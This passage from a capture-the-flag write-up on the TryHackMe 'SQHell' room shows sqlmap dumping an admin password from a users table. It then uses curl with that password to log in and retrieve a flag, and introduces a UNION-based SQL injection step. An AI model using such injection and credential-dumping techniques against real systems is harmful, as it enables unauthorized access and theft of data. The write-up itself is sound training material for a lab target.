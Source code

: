 ```
+----+---------------------------------+----------+
| 1  | icantrememberthispasswordcanyou | admin    |
+----+---------------------------------+----------+
[22:41:21] [INFO] table 'sqhell_2.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_2/users.csv'
[22:41:21] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:21 /2021-06-09/
```

With the password found for the admin user we can either login in via the browser or use curl again to get the flag:

```
┌──(root💀kali)-[/home/kali/sqhell]
└─$ curl -s -d "username=admin" -d "password=icantrememberthispasswordcanyou" http://sqhell.thm/login
<!DOCTYPE html>
<html lang="en">
<SNIP
<div class="container" style="margin-top:20px">
    <h1 class="text-center">Logged In</h1>
    <div class="row">
        <div class="col-md-6 col-md-offset-3">
            <form method="post">
                <div class="panel panel-default" style="margin-top:50px">
                    <div class="panel-heading">Logged In</div>
                    <div class="panel-body">
                        <div class="alert alert-success text-center" style="margin:10px">
                            <p>THM{FLAG1:<HIDDEN>}</p>
                        </div>
                    </div>
                </div>
            </form>
        </div>
    </div>
</div>
</body>
</html>
```

Ok, that was four different ways to get flag 1. Let’s move on to the next flag.

### Flag 5 - In-Band/Union - Browser Method[Permalink](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---browser-method) <a href="#flag-5---in-bandunion---browser-method" id="flag-5---in-bandunion---browser-method"></a>

The next easiest flag is number five. For this one we’ll be using parameter tampering and a UNION based exploit. I did another TryHackMe room called Jurassic Park where I used the same techniques as follows, you can see that post [here.](https://pencer.io/ctf/ctf-thm-jurassic-park). There’s also helpful articles [here](https://www.acunetix.com/blog/articles/exploiting-sql-injection-example) and [here](https://book.hacktricks.xyz/pentesting-web/sql-injection) that are worth a read.
